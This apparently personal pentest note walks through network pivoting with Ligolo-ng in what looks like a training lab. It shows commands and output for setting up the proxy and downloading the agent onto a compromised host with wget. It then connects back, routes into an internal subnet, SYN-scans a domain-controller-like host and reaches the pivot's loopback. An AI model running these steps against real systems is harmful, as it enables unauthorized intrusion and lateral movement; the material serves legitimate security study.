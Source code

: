 ```yaml
---
tags:
  - hack
---
```


# Pivoting with LigoloNG

Setting up the proxy server (`ligolo-proxy`) requires creating a logical device and launching the server with the appropriate options. LigoloNG supports requesting an SSL cert on demand using LetsEncrypt, but in this example I'll use a self-signed certificate.

```console
$ sudo ip tuntap add user kali mode tun ligolo
$ sudo ip link set ligolo up
$ ifconfig ligolo
ligolo: flags=4241<UP,POINTOPOINT,NOARP,MULTICAST>  mtu 1500
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
$ ligolo-proxy -selfcert -laddr 10.10.15.7:31337
WARN[0000] Using automatically generated self-signed certificates (Not recommended)
INFO[0000] Listening on 10.10.15.7:31337
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!

ligolo-ng »
```

Installing `ligolo-agent` on the pivot host:

```console
$ ssh ubuntu@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
ubuntu@t's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
...
Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$ ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.62.81  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe94:c815  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe94:c815  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:94:c8:15  txqueuelen 1000  (Ethernet)
        RX packets 600  bytes 69545 (69.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 115  bytes 12905 (12.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:fe94:98d6  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:98:d6  txqueuelen 1000  (Ethernet)
        RX packets 118  bytes 9870 (9.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 69  bytes 4934 (4.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 295  bytes 23239 (23.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 295  bytes 23239 (23.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
ubuntu@WEB01:~$ cd /dev/shm
ubuntu@WEB01:/dev/shm$ wget 10.10.15.7/ligolo-agent
--2024-06-28 16:37:39--  http://10.10.15.7/ligolo-agent
Connecting to 10.10.15.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1503872 (1.4M) [application/octet-stream]
Saving to: ‘ligolo-agent’
ligolo-agent                       100%[================================================================>]   1.43M   318KB/s    in 4.6s
2024-06-28 16:37:44 (318 KB/s) - ‘ligolo-agent’ saved [1503872/1503872]
ubuntu@WEB01:/dev/shm$ chmod +x ligolo-agent
```

Now I can connect from the pivot host back to my proxy server.

On the pivot host:

```console
ubuntu@WEB01:/dev/shm$ ./ligolo-agent -ignore-cert -connect 10.10.15.7:31337
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.15.7:31337"
```

On the server, the connection appears, and I need to manually select that session to use it:

```console
ligolo-ng » INFO[0153] Agent joined.                                 name=ubuntu@WEB01 remote="10.129.62.81:48662"
[Agent : ubuntu@WEB01] » session
? Specify a session :  [Use arrows to move, type to filter]
> 1 - #1 - ubuntu@WEB01 - 10.129.62.81:48662
```

I can use the command `ifconfig` directly on the proxy server to see what networks are available via the newly connected session:

```console
[Agent : ubuntu@WEB01] » ifconfig
...
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:94:98:d6              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:fe94:98d6/64    │
└──────────────┴────────────────────────────────┘
```

I need to manually add the route for the network I want to pivot to:

```console
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

Then I can start the tunnel on the proxy server:

```console
[Agent : ubuntu@WEB01] » tunnel_start
[Agent : ubuntu@WEB01] » INFO[0455] Starting tunnel to ubuntu@WEB01
```

Now the host is reachable and I can send arbitrary network traffic that wouldn't work if I were using `proxychains` or `sshuttle`, like this SYN scan:

```console
$ sudo nmap -sS -F 172.16.5.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:52 CST
Nmap scan report for 172.16.5.19
Host is up (0.65s latency).
Not shown: 92 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
Nmap done: 1 IP address (1 host up) scanned in 2.58 seconds
```

You can also access the target's loopback interface using `240.0.0.1`:

```console
$ sudo ip route add 240.0.0.1/32 dev ligolo

$ ping 240.0.0.1
PING 240.0.0.1 (240.0.0.1) 56(84) bytes of data.
64 bytes from 240.0.0.1: icmp_seq=1 ttl=64 time=198 ms
64 bytes from 240.0.0.1: icmp_seq=2 ttl=64 time=193 ms
^C

$ nc 240.0.0.1 5666 -nvz
(UNKNOWN) [240.0.0.1] 5666 (nrpe) open
```
